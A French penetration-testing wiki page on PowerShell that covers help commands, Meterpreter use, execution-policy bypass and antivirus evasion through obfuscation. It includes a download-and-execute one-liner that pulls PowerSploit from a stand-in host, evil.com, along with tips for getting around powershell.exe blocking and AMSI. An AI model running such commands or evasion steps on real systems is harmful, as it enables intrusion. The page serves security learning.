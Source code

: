```yaml
---
title: Powershell
permalink: /Powershell/
---
```


# Powershell

Généralités
-----------

- powershell.exe n'est pas "Powershell" mais juste une interface pour intéragir avec. Il est possible d'utiliser d'autres interfaces comme **Not Powershell** (https://github.com/Ben0xA/nps) ou **PSAttack** (https://github.com/jaredhaight/PSAttack) Il est ainsi possible de contourner certaines restrictions avec ceci (e.g. blocage de powershell.exe ou Constrained Powershell Enforced)
- Il est possible d'activer le logging pour Powershell. 
- (Powershell v5): Constrained Powershell Enforced (lié à DeviceGuard) permet de bloquer certaines fonctionnalités de powershell (notamment celles utilisées par Invoke-Mimikatz). Cependant ceci est limité à **powershell.exe**.
- (Windows 10): [Anti malware Scan Interface](https://msdn.microsoft.com/fr-fr/library/windows/desktop/dn889587(v=vs.85).aspx) fournit une interface pour les antivirus qui permet notamment de faciliter l'analyse AV en mémoire.
   - Il existe des méthodes pour bypasser AMSI.
   - La plupart des AV ne supportent pas AMSI.
- (Windows 10): [Just Enough Administration](/Just_Enough_Administration/)


Commandes
---------

Obtenir de l'aide en powershell:

``` powershell
Get-Help Get-Command # Obtenir de l'aide sur Get-Command
Get-Help Get-Command -examples # Affiche les examples
Get-Help Get-Command -full # Affiche toute l'aide
Get-Help Get-Command -Parameter * # Affiche les paramétres
Get-Command Out* # Renvoie toutes les commandes dont le nom contient Out*
```

Pour faire des boucles:

``` powershell
Get-Process | ForEach-Object {$_.Name} # Boucle sur chaque résultat de la commande Get-Process et renvoie le nom
```

Pour faire du formatting / output:

``` powershell
Get-Process | Format-List -Property Threads, SessionId # Affiche le résultat sous forme de liste en se limitant à certaines informations
```

Meterpreter
-------------------

Il est possible d'utiliser powershell à partir d'un meterpreter:
```
load powershell
```

Voir [Meterpreter New Windows PowerShell Extension](http://www.darkoperator.com/blog/2016/4/2/meterpreter-new-windows-powershell-extension)

Execution Policy
----------------

Il est possible de contourner l'execution policy ("\[...\] running scripts is disabled on this system."):

``` powershell
iex (new-object net.webclient).downloadstring('file:///C:\\Tools\\Powersploit\\Powersploit.psd1')
iex (new-object net.webclient).downloadstring('https://evil.com/powersploit.psd1')
```

-   Si powershell.exe est bloqué: il est possible d'utiliser **Not Powershell** (https://github.com/Ben0xA/nps)

Il est très important de comprendre que l'execution policy n'est pas un mécanisme de sécurité ! (Microsoft le dit lui-même)

Obfuscation
-----------
Il est possible d'obfusquer du code powershell pour contourner certains antivirus qui bloquent powersploit & cie. L'outil [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) permet de faire ceci facilement. Il est cependant possible de bloquer les codes obfusqués (une analyse statistique permet de détecter les codes non légitimes).


Resources
---------

-  [PowerUp: A Usage Guide](http://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/)
-  [PwnWiki](http://pwnwiki.io/#!scripting/powershell.md)
-  [DerbyCon - PowerShell Secrets and Tactics](https://www.youtube.com/watch?v=mPPv6_adTyg)
-  [PowerShell Security: Defending the Enterprise from the Latest Attack Platform](https://www.youtube.com/watch?v=_8yBjg7bRLo)
